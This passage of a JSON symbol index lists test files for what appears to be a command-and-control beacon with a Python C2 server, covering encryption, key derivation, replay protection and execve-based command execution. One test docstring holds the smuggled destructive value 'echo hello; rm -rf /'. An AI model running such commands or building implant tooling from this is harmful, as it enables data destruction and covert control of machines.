"module", "label": "test_config.py", "language": "py", "sha256": "0cda6fc360e95d05", "symbol_count": 9, "symbols": [{"doc": "Build the test harness against config.c.", "kind": "function", "line": 25, "name": "compile_harness", "signature": "def compile_harness()"}, {"doc": "Write a config file, run the harness, return parsed output.", "kind": "function", "line": 46, "name": "run_harness", "signature": "def run_harness(config_text)"}, {"kind": "function", "line": 63, "name": "test_default_load", "signature": "def test_default_load()"}, {"kind": "function", "line": 81, "name": "test_overrides", "signature": "def test_overrides()"}, {"kind": "function", "line": 104, "name": "test_missing_file", "signature": "def test_missing_file()"}, {"doc": "$BSB_CONFIG must take precedence over the binary-relative path.", "kind": "function", "line": 112, "name": "test_search_order_env_wins", "signature": "def test_search_order_env_wins()"}, {"doc": "With BSB_CONFIG unset, the harness resolves to ./config.json\n(the binary-relative lookup is irrelevant in the harness because\nthe harness lives in tests/, not next to a config.json).", "kind": "function", "line": 137, "name": "test_search_order_falls_back_to_cwd_default", "signature": "def test_search_order_falls_back_to_cwd_default()"}, {"kind": "function", "line": 172, "name": "test_bad_hex_key", "signature": "def test_bad_hex_key()"}, {"kind": "function", "line": 187, "name": "main", "signature": "def main()"}]}, {"doc": "Roundtrip tests for AES-256-CFB.  Verifies the C implementation in include/aes_cfb.c is internally consistent. Cross-implementation tests (C <-> Python) live in test_c2_server.py because the Python side runs inside the C2 server, not the test harness.", "id": "tests/test_crypto.py", "kind": "module", "label": "test_crypto.py", "language": "py", "sha256": "18ef628a2c08b5ec", "symbol_count": 9, "symbols": [{"doc": "Build the harness if it is missing or older than its sources.\n\npytest imports this module and calls run() directly, so the build\ncannot live in main() alone -- another test runs `make clean` and\nwipes build/ mid-session. Rebuilding on staleness keeps both entry\npoints (pytest and `python3 tests/test_crypto.py`) working.", "kind": "function", "line": 27, "name": "compile_harness", "signature": "def compile_harness()"}, {"kind": "function", "line": 59, "name": "run", "signature": "def run(plaintext, key_hex)"}, {"kind": "function", "line": 68, "name": "test_short", "signature": "def test_short()"}, {"kind": "function", "line": 72, "name": "test_block_boundary", "signature": "def test_block_boundary()"}, {"kind": "function", "line": 77, "name": "test_longer_than_block", "signature": "def test_longer_than_block()"}, {"kind": "function", "line": 83, "name": "test_known_ciphertext", "signature": "def test_known_ciphertext()"}, {"doc": "The Python C2 server must be able to decrypt C-encrypted\ncommands. We feed a known key+plaintext through the C harness,\nextract the ciphertext, then decrypt with Python and check we\nrecover the original plain.", "kind": "function", "line": 104, "name": "test_python_can_decrypt_c_ciphertext", "signature": "def test_python_can_decrypt_c_ciphertext()"}, {"doc": "Cross-language test: C aes256_cfb_encrypt_replay -> Python decrypt_data_replay.\n\nThis verifies the replay protection (counter + timestamp prefix) works\nidentically across C (tiny-AES-c CFB) and Python (cryptography CFB).", "kind": "function", "line": 136, "name": "test_c_replay_encrypt_python_decrypt", "signature": "def test_c_replay_encrypt_python_decrypt()"}, {"kind": "function", "line": 167, "name": "main", "signature": "def main()"}]}, {"doc": "Tests for Command Execution via execve (Contract: Command Execution via execve)  BDD Scenarios: 1. Given a simple command, when executed via execve, then output is captured 2. Given a command with arguments, when executed, then argv is properly parsed 3. Given a command with quoted arguments, when executed, then quotes are handled 4. Given a non-existent command, when executed, then error is returned 5. Given a command that writes to stderr, when executed, then stderr is captured 6. Given shell metacharacters (|, ;, &, $(), etc.), when executed, then they are NOT interpreted", "id": "tests/test_execve_command.py", "kind": "module", "label": "test_execve_command.py", "language": "py", "sha256": "7d3c72042abe591b", "symbol_count": 12, "symbols": [{"doc": "Test execve-based command execution (C implementation).", "kind": "class", "line": 25, "name": "TestExecveCommandExecution", "signature": "class TestExecveCommandExecution"}, {"doc": "Tests designed to kill mutants in execve command execution.", "kind": "class", "line": 57, "name": "TestExecveMutationResistance", "signature": "class TestExecveMutationResistance"}, {"doc": "Given simple command 'echo hello', when executed, then output is 'hello'.", "kind": "method", "line": 28, "name": "test_simple_command_execution", "signature": "def test_simple_command_execution(self)"}, {"doc": "Given 'echo hello world', when executed, then arguments are passed correctly.", "kind": "method", "line": 34, "name": "test_command_with_arguments", "signature": "def test_command_with_arguments(self)"}, {"doc": "Given 'echo \"hello world\"', when executed, then argument is 'hello world'.", "kind": "method", "line": 38, "name": "test_quoted_arguments", "signature": "def test_quoted_arguments(self)"}, {"doc": "Given non-existent command, when executed, then error returned.", "kind": "method", "line": 42, "name": "test_non_existent_command", "signature": "def test_non_existent_command(self)"}, {"doc": "Given command writing to stderr, when executed, then stderr captured.", "kind": "method", "line": 46, "name": "test_stderr_capture", "signature": "def test_stderr_capture(self)"}, {"doc": "Given 'echo hello; rm -rf /', when executed, then entire string is single argument.", "kind": "method", "line": 50, "name": "test_shell_metacharacters_not_interpreted", "signature": "def test_shell_metacharacters_not_interpreted(self)"}, {"doc": "Mutant: using system() instead of execve(). Test: system() is NOT used.", "kind": "method", "line": 60, "name": "test_no_system_call", "signature": "def test_no_system_call(self)"}, {"doc": "Mutant: using popen() instead of execve(). Test: popen() is NOT used.", "kind": "method", "line": 67, "name": "test_no_popen_call", "signature": "def test_no_popen_call(self)"}, {"doc": "Mutant: passing command string to execve. Test: argv array is used.", "kind": "method", "line": 71, "name": "test_argv_array_not_string", "signature": "def test_argv_array_not_string(self)"}, {"doc": "Mutant: shell metacharacters passed to shell. Test: they are literal.", "kind": "method", "line": 77, "name": "test_shell_metacharacters_escaped", "signature": "def test_shell_metacharacters_escaped(self)"}]}, {"doc": "Tests for HKDF Key Derivation (Contract: HKDF Key Derivation)  BDD Scenarios: 1. Given a config with master_key_hex, when loaded, then encryption_key and hmac_key are derived via HKDF-SHA256 2. Given a config without master_key_hex but with aes_key_hex, when loaded, then keys are derived from aes_key_hex (backward compat) 3. Given neither master_key_hex nor aes_key_hex, when loaded, then ValueError is raised 4. Given same master_key_hex, when derived in C and Python, then keys match exactly 5. Given different info strings, when derived, then different keys are produced (key separation)", "id": "tests/test_hkdf_key_derivation.py", "kind": "module", "label": "test_hkdf_key_derivation.py", "language": "py", "sha256": "586a3462fa9b56d6", "symbol_count": 19, "symbols": [{"doc": "Test config loading for HKDF key derivation.", "kind": "class", "line": 24, "name": "TestHKDFKeyDerivationConfig", "signature": "class TestHKDFKeyDerivationConfig"}, {"doc": "Test HKDF key derivation logic.", "kind": "class", "line": 87, "name": "TestHKDFDerivation", "signature": "class TestHKDFDerivation"}, {"doc": "Test that load_config returns derived keys.", "kind": "class", "line": 159, "name": "TestHKDFConfigIntegration", "signature": "class TestHKDFConfigIntegration"}, {"doc": "Tests designed to kill mutants.", "kind": "class", "line": 220, "name": "TestHKDFMutationResistance", "signature": "class TestHKDFMutationResistance"}, {"doc": "Given config with master_key_hex, when loaded, then master_key_hex is stored.", "kind": "method", "line": 27, "name": "test_config_loads_master_key_hex", "signature": "def test_config_loads_master_key_hex(self)"}, {"doc": "Given config with only aes_key_hex (legacy), when loaded, then aes_key_hex is stored.", "kind": "method", "line": 40, "name": "test_config_loads_aes_key_hex_backward_compat", "signature": "def test_config_loads_aes_key_hex_backward_compat(self)"}, {"doc": "Given config with both master_key_hex and aes_key_hex explicitly empty, when loaded, then ValueError is raised.", "kind": "method", "line": 53, "name": "test_config_rejects_missing_both_keys", "signature": "def test_config_rejects_missing_both_keys(self)"}, {"doc": "Given config with invalid master_key_hex length, when loaded, then ValueError is raised.", "kind": "method", "line": 64, "name": "test_config_validates_master_key_hex_length", "signature": "def test_config_validates_master_key_hex_length(self)"}, {"doc": "Given config with non-hex master_key_hex, when loaded, then ValueError is raised.", "kind": "method", "line": 75, "name": "test_config_validates_master_key_hex_hex_chars", "signature": "def test_config_validates_master_key_hex_hex_chars(self)"}, {"doc": "Given a master key, when HKDF is applied, then two independent 32-byte keys are produced.", "kind": "method", "line": 90, "name": "test_hkdf_derives_encryption_and_hmac_keys", "signature": "def test_hkdf_derives_encryption_and_hmac_keys(self)"}, {"doc": "Given same master key and salt, when HKDF is applied twice, then keys are identical.", "kind": "method", "line": 123, "name": "test_hkdf_deterministic", "signature": "def test_hkdf_deterministic(self)"}, {"doc": "Given same master key but different info, when HKDF is applied, then keys differ.", "kind": "method", "line": 137, "name": "test_hkdf_different_info_produces_different_keys", "signature": "def test_hkdf_different_info_produces_different_keys(self)"}, {"doc": "Given config with master_key_hex, when load_config is called, then derived keys are in result.", "kind": "method", "line": 162, "name": "test_load_config_returns_derived_keys_when_master_key_present", "signature": "def test_load_config_returns_derived_keys_when_master_key_present(self)"}, {"doc": "Given config with only aes_key_hex, when load_config is called, then keys derived from aes_key_hex.", "kind": "method", "line": 180, "name": "test_load_config_derives_from_aes_key_when_no_master_key", "signature": "def test_load_config_derives_from_aes_key_when_no_master_key(self)"}, {"doc": "Given same master key, when derived in C and Python, then keys match exactly.", "kind": "method", "line": 196, "name": "test_c_and_python_derive_same_keys", "signature": "def test_c_and_python_derive_same_keys(self)"}, {"doc": "Mutant: salt changed to different value. Test: salt must be 'blacksandbeacon-v2'.", "kind": "method", "line": 223, "name": "test_salt_is_constant_not_mutated", "signature": "def test_salt_is_constant_not_mutated(self)"}, {"doc": "Mutant: info strings swapped or changed. Test: 'enc' and 'hmac' produce different keys.", "kind": "method", "line": 238, "name": "test_info_strings_are_enc_and_hmac_not_mutated", "signature": "def test_info_strings_are_enc_and_hmac_not_mutated(self)"}, {"doc": "Mutant: key length changed to 16 or 64. Test: keys must be 32 bytes.", "kind": "method", "line": 263, "name": "test_key_length_is_32_bytes_not_mutated", "signature": "def test_key_length_is_32_bytes_not_mutated(self)"}, {"doc": "Mutant: hash algorithm changed. Test: HKDF uses SHA256.", "kind": "method", "line": 277, "name": "test_sha256_not_mutated_to_sha1_or_md5", "signature": "def test_sha256_not_mutated_to_sha1_or_md5(self)"}]}, {"id": "tests/test_hkdf_key_derivation_c.c", "kind": "module", "label": "test_hkdf_key_derivation_c.c", "language": "c", "sha256": "6d2ff9784c11d656", "symbol_count": 11, "symbols": [{"doc": "#include <stdarg.h> #include <stddef.h> #include <setjmp.h> #include <cmocka.h> #include <stdbool.h> #include <string.h> #include <stdlib.h> #include <stdio.h> #include <unistd.h> /* Include the config header #include \"config.h\" /* Test that master_key_hex field exists and can be loaded", "kind": "function", "line": 19, "name": "test_master_key_hex_loads_from_config", "signature": "static void test_master_key_hex_loads_from_config(void **state)"}, {"doc": "\"\\xa1\\xb2\\xc3\\xd4\\xe5\\xf6\\xa7\\xb8\\xc9\\xd0\\xe1\\xf2\\xa3\\xb4\\xc5\\xd6\" \"\\xe7\\xf8\\xa9\\xb0\\xc1\\xd2\\xe3\\xf4\\xa5\\xb6\\xc7\\xd8\\xe9\\xf0\\xa1\\xb2\", BSB_AES_KEY_BYTES); /* Verify derived keys are non-zero and different uint8_t zeros[BSB_AES_KEY_BYTES] = {0}; assert_memory_not_equal(cfg.crypto.encryption_key, zeros, BSB_AES_KEY_BYTES); assert_memory_not_equal(cfg.crypto.hmac_key, zeros, BSB_AES_KEY_BYTES); assert_memory_not_equal(cfg.crypto.encryption_key, cfg.crypto.hmac_key, BSB_AES_KEY_BYTES); unlink(\"/tmp/test_master_key.json\"); } /* Test that legacy aes_key_hex still works (backward compat)", "kind": "function", "line": 55, "name": "test_aes_key_hex_backward_compat", "signature": "static void test_aes_key_hex_backward_compat(void **state)"}, {"doc": "\"\\xb1\\xb2\\xc3\\xd4\\xe5\\xf6\\xa7\\xb8\\xc9\\xd0\\xe1\\xf2\\xa3\\xb4\\xc5\\xd6\" \"\\xe7\\xf8\\xa9\\xb0\\xc1\\xd2\\xe3\\xf4\\xa5\\xb6\\xc7\\xd8\\xe9\\xf0\\xa1\\xb2\", BSB_AES_KEY_BYTES); /* Verify derived keys are non-zero and different uint8_t zeros[BSB_AES_KEY_BYTES] = {0}; assert_memory_not_equal(cfg.crypto.encryption_key, zeros, BSB_AES_KEY_BYTES); assert_memory_not_equal(cfg.crypto.hmac_key, zeros, BSB_AES_KEY_BYTES); assert_memory_not_equal(cfg.crypto.encryption_key, cfg.crypto.hmac_key, BSB_AES_KEY_BYTES); unlink(\"/tmp/test_aes_key.json\"); } /* Test that missing both keys fails", "kind": "function", "line": 90, "name": "test_missing_both_keys_fails", "signature": "static void test_missing_both_keys_fails(void **state)"}, {"doc": "assert_non_null(f); fputs(config_content, f); fclose(f); bsb_config_t cfg; char err[512]; int r = bsb_config_load(\"/tmp/test_no_keys.json\", &cfg, err, sizeof(err)); assert_int_equal(r, -1); assert_string_equal(err, \"crypto.master_key_hex or crypto.aes_key_hex missing or invalid\"); unlink(\"/tmp/test_no_keys.json\"); } /* Test that invalid master_key_hex length fails", "kind": "function", "line": 115, "name": "test_invalid_master_key_hex_length_fails", "signature": "static void test_invalid_master_key_hex_length_fails(void **state)"}, {"doc": "assert_non_null(f); fputs(config_content, f); fclose(f); bsb_config_t cfg; char err[512]; int r = bsb_config_load(\"/tmp/test_bad_master_key.json\", &cfg, err, sizeof(err)); assert_int_equal(r, -1); assert_true(strstr(err, \"master_key_hex\") != NULL); unlink(\"/tmp/test_bad_master_key.json\"); } /* Test that encryption_key and hmac_key are different for same master key (key separation)", "kind": "function", "line": 139, "name": "test_key_separation", "signature": "static void test_key_separation(void **state)"}, {"doc": "fclose(f); bsb_config_t cfg; char err[512]; int r = bsb_config_load(\"/tmp/test_key_sep.json\", &cfg, err, sizeof(err)); assert_int_equal(r, 0); /* Verify encryption_key != hmac_key (key separation) assert_memory_not_equal(cfg.crypto.encryption_key, cfg.crypto.hmac_key, BSB_AES_KEY_BYTES); unlink(\"/tmp/test_key_sep.json\"); } /* Test that same master_key produces same derived keys (deterministic)", "kind": "function", "line": 165, "name": "test_deterministic_derivation", "signature": "static void test_deterministic_derivation(void **state)"}, {"doc": "int r1 = bsb_config_load(\"/tmp/test_det1.json\", &cfg1, err, sizeof(err)); int r2 = bsb_config_load(\"/tmp/test_det2.json\", &cfg2, err, sizeof(err)); assert_int_equal(r1, 0); assert_int_equal(r2, 0); /* Derived keys should be identical assert_memory_equal(cfg1.crypto.encryption_key, cfg2.crypto.encryption_key, BSB_AES_KEY_BYTES); assert_memory_equal(cfg1.crypto.hmac_key, cfg2.crypto.hmac_key, BSB_AES_KEY_BYTES); unlink(\"/tmp/test_det1.json\"); unlink(\"/tmp/test_det2.json\"); } /* Test that crypto struct has new fields", "kind": "function", "line": 200, "name": "test_crypto_struct_has_new_fields", "signature": "static void test_crypto_struct_has_new_fields(void **state)"}, {"kind": "function", "line": 207, "name": "assert_memory_equal", "signature": "assert_memory_equal(crypto.master_key, (uint8_t[BSB_AES_KEY_BYTES])"}, {"kind": "function", "line": 208, "name": "assert_memory_equal", "signature": "assert_memory_equal(crypto.encryption_key, (uint8_t[BSB_AES_KEY_BYTES])"}, {"kind": "function", "line": 209, "name": "assert_memory_equal", "signature": "assert_memory_equal(crypto.hmac_key, (uint8_t[BSB_AES_KEY_BYTES])"}, {"kind": "function", "line": 212, "name": "main", "signature": "int main(void)"}]}, {"doc": "End-to-end test for the \"make beacon && ./build/beacon\" workflow.  After `make clean && make beacon bofs`, the operator expects: - build/beacon          runnable binary (mode 0755) - build/config.json     operator-only (mode 0600) - build/bof/*.x64.o     5 BOFs ready to copy to the C2  Running the binary from any CWD should pick up build/config.json (the binary-relative search path).", "id": "tests/test_install_deploy.py", "kind": "module", "label": "test_install_deploy.py", "language": "py", "sha256": "10d1abba4b1d818e", "symbol_count": 8, "symbols": [{"doc": "Clean and build everything, return nothing.", "kind": "function", "line": 23, "name": "make_all", "signature": "def make_all()"}, {"doc": "Run the beacon from `cwd` and return (output, exit_code).\n\nexit_code is None when the 3s cap tripped, which is the expected\npath: the beacon polls the C2 forever, so it never exits on its\nown. (The bare main() runner handled TimeoutExpired inline;\npytest surfaces it as a failure, so it is normalised here.)", "kind": "function", "line": 29, "name": "run_beacon", "signature": "def run_beacon(binary, cwd)"}, {"doc": "The point of this whole iteration: `make beacon` leaves\na runnable binary with its config next to it, no env vars\nor extra steps required.", "kind": "function", "line": 56, "name": "test_build_beacon_lands_alongside_config", "signature": "def test_build_beacon_lands_alongside_config()"}, {"kind": "function", "line": 67, "name": "test_staged_files_have_correct_modes", "signature": "def test_staged_files_have_correct_modes()"}, {"doc": "Drop the operator in /tmp; the staged beacon should still\nfind build/config.json via the binary-relative search path.", "kind": "function", "line": 75, "name": "test_staged_beacon_runs_from_any_cwd", "signature": "def test_staged_beacon_runs_from_any_cwd()"}, {"kind": "function", "line": 90, "name": "test_staged_bofs_are_present", "signature": "def test_staged_bofs_are_present()"}, {"doc": "make clean must wipe build/ — including the staged config.json —\nbut leave config/config.json (the operator's copy) alone.\n\nThis is the last test that runs, so we leave the operator with a\nfresh deliverable tree afterwards. `make clean` is destructive\nand the operator's only copy of build/ is whatever the previous\ntest left behind; rebuilding here guarantees `./build/beacon`\nand the staged BOFs are present after `make test` finishes.", "kind": "function", "line": 103, "name": "test_clean_removes_everything", "signature": "def test_clean_removes_everything()"}, {"kind": "function", "line": 129, "name": "main", "signature": "def main()"}]}, {"doc": "Tests for IV Generation with Entropy Verification (Contract: IV Generation with Entropy Verification)  BDD Scenarios: 1. Given a beacon encrypting data, when RAND_bytes succeeds, then IV is generated from OpenSSL 2. Given a beacon encrypting data, when RAND_bytes fails, then fallback to getrandom(2) 3. Given a beacon encrypting data, when both RAND_bytes and getrandom fail, then encryption aborts (fail-closed) 4. Given Python encrypting data, when os.urandom is used, then it blocks until entropy available 5. Given invalid IV (all zeros), when used, then encryption fails", "id": "tests/test_iv_generation.py", "kind": "module", "label": "test_iv_generation.py", "language": "py", "sha256": "54e21c4441af596e", "symbol_count": 17, "symbols": [{"doc": "Test config loading for IV-related settings.", "kind": "class", "line": 26, "name": "TestIVGenerationConfig", "signature": "class TestIVGenerationConfig"}, {"doc": "Test IV generation in Python encryption functions.", "kind": "class", "line": 42, "name": "TestIVGenerationPython", "signature": "class TestIVGenerationPython"}, {"doc": "Test expected C behavior for IV generation (documented for implementation).", "kind": "class", "line": 101, "name": "TestIVGenerationCBehavior", "signature": "class TestIVGenerationCBehavior"}, {"doc": "Tests designed to kill mutants in IV generation.", "kind": "class", "line": 128, "name": "TestIVMutationResistance", "signature": "class TestIVMutationResistance"}, {"doc": "Given default config, when loaded, then IV settings are present.", "kind": "method", "line": 29, "name": "test_config_defaults_include_iv_settings", "signature": "def test_config_defaults_include_iv_settings(self)"}, {"doc": "Given encrypt_data is called, when IV is generated, then os.urandom(16) is used.", "kind": "method", "line": 45, "name": "test_encrypt_data_uses_os_urandom_for_iv", "signature": "def test_encrypt_data_uses_os_urandom_for_iv(self)"}, {"doc": "Given encrypt_data is called, when IV is generated, then it's exactly 16 bytes.", "kind": "method", "line": 58, "name": "test_encrypt_data_iv_is_16_bytes", "signature": "def test_encrypt_data_iv_is_16_bytes(self)"}, {"doc": "Given decrypt_data is called, when IV is extracted, then it's 16 bytes.", "kind": "method", "line": 73, "name": "test_decrypt_data_handles_iv_correctly", "signature": "def test_decrypt_data_handles_iv_correctly(self)"}, {"doc": "Given multiple encryptions of same data, when IVs differ, then ciphertexts differ.", "kind": "method", "line": 85, "name": "test_encrypt_decrypt_roundtrip_with_different_ivs", "signature": "def test_encrypt_decrypt_roundtrip_with_different_ivs(self)"}, {"doc": "Documentation: When RAND_bytes returns 1, IV is used directly.", "kind": "method", "line": 104, "name": "test_rand_bytes_success_path", "signature": "def test_rand_bytes_success_path(self)"}, {"doc": "Documentation: When RAND_bytes fails, getrandom(2) is used.", "kind": "method", "line": 113, "name": "test_getrandom_fallback_path", "signature": "def test_getrandom_fallback_path(self)"}, {"doc": "Documentation: When both entropy sources fail, encryption aborts.", "kind": "method", "line": 121, "name": "test_fail_closed_on_entropy_failure", "signature": "def test_fail_closed_on_entropy_failure(self)"}, {"doc": "Mutant: IV length changed to 8 or 32. Test: IV must be 16 bytes for AES-CFB.", "kind": "method", "line": 131, "name": "test_iv_length_is_16_bytes_not_mutated", "signature": "def test_iv_length_is_16_bytes_not_mutated(self)"}, {"doc": "Mutant: IV hardcoded to zeros. Test: IV must be random, not static.", "kind": "method", "line": 146, "name": "test_iv_not_all_zeros", "signature": "def test_iv_not_all_zeros(self)"}, {"doc": "Mutant: os.urandom replaced with non-blocking random. Test: os.urandom blocks.", "kind": "method", "line": 163, "name": "test_urandom_blocks_on_low_entropy", "signature": "def test_urandom_blocks_on_low_entropy(self)"}, {"doc": "Mutant: RAND_bytes return value ignored. Test: Return value must be checked.", "kind": "method", "line": 171, "name": "test_rand_bytes_return_value_checked", "signature": "def test_rand_bytes_return_value_checked(self)"}, {"doc": "Mutant: getrandom called without GRND_NONBLOCK. Test: Must use GRND_NONBLOCK.", "kind": "method", "line": 177, "name": "test_getrandom_flags_grnd_nonblock", "signature": "def test_getrandom_flags_grnd_nonblock(self)"}]}, {"id": "tests/test_iv_generation_c.c", "kind": "module", "label": "test_iv_generation_c.c", "language": "c", "sha256": "d8838c47a1a0a815", "symbol_count": 7, "symbols": [{"doc": "#include <stdarg.h> #include <stddef.h> #include <setjmp.h> #include <cmocka.h> #include <stdbool.h> #include <string.h> #include <stdlib.h> #include <stdio.h> #include <unistd.h> /* Include the beacon_common header #include \"beacon_common.h\" /* Test that bsb_generate_secure_iv returns 1 on success", "kind": "function", "line": 19, "name": "test_generate_secure_iv_success", "signature": "static void test_generate_secure_iv_success(void **state)"}, {"doc": "/* Test that bsb_generate_secure_iv returns 1 on success static void test_generate_secure_iv_success(void **state) { (void)state; unsigned char iv[16]; int result = bsb_generate_secure_iv(iv); assert_int_equal(result, 1); /* Verify IV is not all zeros (extremely unlikely for secure RNG) uint8_t zeros[16] = {0}; assert_memory_not_equal(iv, zeros, 16); } /* Test that bsb_generate_secure_iv produces different IVs on each call", "kind": "function", "line": 31, "name": "test_generate_secure_iv_different_each_call", "signature": "static void test_generate_secure_iv_different_each_call(void **state)"}, {"doc": "unsigned char iv1[16]; unsigned char iv2[16]; int result1 = bsb_generate_secure_iv(iv1); int result2 = bsb_generate_secure_iv(iv2); assert_int_equal(result1, 1); assert_int_equal(result2, 1); /* Two calls should produce different IVs (with extremely high probability) assert_memory_not_equal(iv1, iv2, 16); } /* Test that bsb_generate_secure_iv returns 0 on NULL input", "kind": "function", "line": 47, "name": "test_generate_secure_iv_null_input", "signature": "static void test_generate_secure_iv_null_input(void **state)"}, {"doc": "assert_int_equal(result2, 1); /* Two calls should produce different IVs (with extremely high probability) assert_memory_not_equal(iv1, iv2, 16); } /* Test that bsb_generate_secure_iv returns 0 on NULL input static void test_generate_secure_iv_null_input(void **state) { (void)state; int result = bsb_generate_secure_iv(NULL); assert_int_equal(result, 0); } /* Test that IV is exactly 16 bytes", "kind": "function", "line": 54, "name": "test_generate_secure_iv_length", "signature": "static void test_generate_secure_iv_length(void **state)"}, {"doc": "int result = bsb_generate_secure_iv(iv); assert_int_equal(result, 1); /* The function doesn't return the length, but we know it writes 16 bytes /* Verify by checking that all 16 bytes were written (not all zeros) int non_zero_count = 0; for (int i = 0; i < 16; i++) { if (iv[i] != 0) non_zero_count++; } /* At least some bytes should be non-zero (probability of all zeros is negligible) assert_true(non_zero_count > 0); } /* Test that beacon_common.h has the function declaration", "kind": "function", "line": 71, "name": "test_beacon_common_has_iv_function", "signature": "static void test_beacon_common_has_iv_function(void **state)"}, {"kind": "function", "line": 78, "name": "main", "signature": "int main(void)"}, {"doc": "/* The function doesn't return the length, but we know it writes 16 bytes /* Verify by checking that all 16 bytes were written (not all zeros) int non_zero_count = 0; for (int i = 0; i < 16; i++) { if (iv[i] != 0) non_zero_count++; } /* At least some bytes should be non-zero (probability of all zeros is negligible) assert_true(non_zero_count > 0); } /* Test that beacon_common.h has the function declaration static void test_beacon_common_has_iv_function(void **state) { (void)state; /* This test compiles only if the declaration exists", "kind": "function", "line": 74, "name": "bsb_generate_secure_iv", "signature": "extern int bsb_generate_secure_iv(unsigned char *iv_out);"}]}, {"doc": "Tests for Replay Protection (Contract: Replay Protection)  BDD Scenarios: 1. Given a beacon sending a command, when it encrypts the payload, then it includes counter + timestamp 2. Given a server receiving a payload, when counter <= last_seen_counter, then it rejects (replay) 3. Given a server receiving a payload, when timestamp > now + 60s, then it rejects (future timestamp) 4. Given a server receiving a payload, when timestamp < now - 300s, then it rejects (stale timestamp) 5. Given a server receiving a valid payload, when counter > last_seen_counter and timestamp in window, then it accepts 6. Given a beacon restart, when counter resets, then server accepts new counter (new session)", "id": "tests/test_replay_protection.py", "kind": "module", "label": "test_replay_protection.py", "language": "py", "sha256": "23fd0a7150692d87", "symbol_count": 28, "symbols": [{"doc": "Test config loading for replay protection.", "kind": "class", "line": 29, "name": "TestReplayProtectionConfig", "signature": "class TestReplayProtectionConfig"}, {"doc": "Test the encrypted payload format with counter + timestamp.", "kind": "class", "line": 63, "name": "TestReplayProtectionPayloadFormat", "signature": "class TestReplayProtectionPayloadFormat"}, {"doc": "Test server-side replay verification logic.", "kind": "class", "line": 81, "name": "TestReplayProtectionServerVerification", "signature": "class TestReplayProtectionServerVerification"}, {"doc": "Test beacon-side counter management.", "kind": "class", "line": 108, "name": "TestReplayProtectionBeaconBehavior", "signature": "class TestReplayProtectionBeaconBehavior"}, {"doc": "Integration tests for full replay protection flow.", "kind": "class", "line": 124, "name": "TestReplayProtectionIntegration", "signature": "class TestReplayProtectionIntegration"}, {"doc": "Tests designed to kill mutants in replay protection.", "kind": "class", "line": 140, "name": "TestReplayProtectionMutationResistance", "signature": "class TestReplayProtectionMutationResistance"}, {"doc": "Given default config, when loaded, then replay_window_seconds defaults to 300.", "kind": "method", "line": 32, "name": "test_config_defaults_include_replay_window", "signature": "def test_config_defaults_include_replay_window(self)"}, {"doc": "Given config with custom replay_window_seconds, when loaded, then value is used.", "kind": "method", "line": 43, "name": "test_config_custom_replay_window", "signature": "def test_config_custom_replay_window(self)"}, {"doc": "Given config with negative replay_window_seconds, when loaded, then ValueError.", "kind": "method", "line": 53, "name": "test_config_replay_window_validation_positive", "signature": "def test_config_replay_window_validation_positive(self)"}, {"doc": "Given encrypt_data with replay data, when called, then payload has iv + counter + timestamp + ciphertext.", "kind": "method", "line": 66, "name": "test_encrypt_includes_counter_and_timestamp", "signature": "def test_encrypt_includes_counter_and_timestamp(self)"}, {"doc": "Document expected payload structure: iv(16) || counter(8, LE) || timestamp(8, LE) || ciphertext.", "kind": "method", "line": 75, "name": "test_payload_structure_iv_16_counter_8_timestamp_8_ciphertext", "signature": "def test_payload_structure_iv_16_counter_8_timestamp_8_ciphertext(self)"}, {"doc": "Given C2State, when handling reports, then it tracks last_seen_counter per client_id.", "kind": "method", "line": 84, "name": "test_server_tracks_last_seen_counter_per_client", "signature": "def test_server_tracks_last_seen_counter_per_client(self)"}, {"doc": "Given server with last_seen_counter=5, when receiving counter=5, then rejects.", "kind": "method", "line": 90, "name": "test_server_rejects_replay_counter_le_last_seen", "signature": "def test_server_rejects_replay_counter_le_last_seen(self)"}, {"doc": "Given server receiving timestamp in future (> now + 60s), then rejects.", "kind": "method", "line": 95, "name": "test_server_rejects_future_timestamp_gt_now_plus_60", "signature": "def test_server_rejects_future_timestamp_gt_now_plus_60(self)"}, {"doc": "Given server receiving timestamp too old (< now - replay_window), then rejects.", "kind": "method", "line": 99, "name": "test_server_rejects_stale_timestamp_lt_now_minus_window", "signature": "def test_server_rejects_stale_timestamp_lt_now_minus_window(self)"}, {"doc": "Given server with valid counter > last_seen and timestamp in window, then accepts.", "kind": "method", "line": 103, "name": "test_server_accepts_valid_counter_and_timestamp", "signature": "def test_server_accepts_valid_counter_and_timestamp(self)"}, {"doc": "Given beacon sending multiple messages, when each is sent, then counter increments.", "kind": "method", "line": 111, "name": "test_beacon_increments_counter_per_message", "signature": "def test_beacon_increments_counter_per_message(self)"}, {"doc": "Given beacon restart, when it starts, then counter resets to 0.", "kind": "method", "line": 115, "name": "test_beacon_resets_counter_on_restart", "signature": "def test_beacon_resets_counter_on_restart(self)"}, {"doc": "Given beacon encrypting, when creating payload, then includes current timestamp.", "kind": "method", "line": 119, "name": "test_beacon_includes_timestamp_in_payload", "signature": "def test_beacon_includes_timestamp_in_payload(self)"}, {"doc": "Given beacon and server with replay protection, when beacon sends command, then server accepts.", "kind": "method", "line": 127, "name": "test_full_roundtrip_with_replay_protection", "signature": "def test_full_roundtrip_with_replay_protection(self)"}, {"doc": "Given attacker captures and resends payload, when server receives duplicate, then rejects.", "kind": "method", "line": 131, "name": "test_replay_attack_detected", "signature": "def test_replay_attack_detected(self)"}, {"doc": "Given old payload (timestamp > 300s ago), when server receives it, then rejects.", "kind": "method", "line": 135, "name": "test_stale_payload_rejected", "signature": "def test_stale_payload_rejected(self)"}, {"doc": "Mutant: counter <= last_seen changed to counter < last_seen. Test: <= correctly rejects equal counter.", "kind": "method", "line": 143, "name": "test_counter_comparison_not_mutated", "signature": "def test_counter_comparison_not_mutated(self)"}, {"doc": "Mutant: timestamp > now + 60 changed to timestamp >= now + 60. Test: > correctly rejects at exactly +60.", "kind": "method", "line": 150, "name": "test_timestamp_future_check_not_mutated", "signature": "def test_timestamp_future_check_not_mutated(self)"}, {"doc": "Mutant: timestamp < now - window changed to timestamp <= now - window. Test: < correctly rejects at exactly window.", "kind": "method", "line": 161, "name": "test_timestamp_stale_check_not_mutated", "signature": "def test_timestamp_stale_check_not_mutated(self)"}, {"doc": "Mutant: counter++ changed to counter-- or removed. Test: counter must increment.", "kind": "method", "line": 173, "name": "test_counter_increment_not_mutated", "signature": "def test_counter_increment_not_mutated(self)"}, {"doc": "Mutant: counter not reset. Test: new beacon session starts at 0.", "kind": "method", "line": 179, "name": "test_counter_reset_on_new_session", "signature": "def test_counter_reset_on_new_session(self)"}, {"doc": "Mutant: HMAC only covers ciphertext. Test: HMAC must cover iv + counter + timestamp + ciphertext.", "kind": "method", "line": 184, "name": 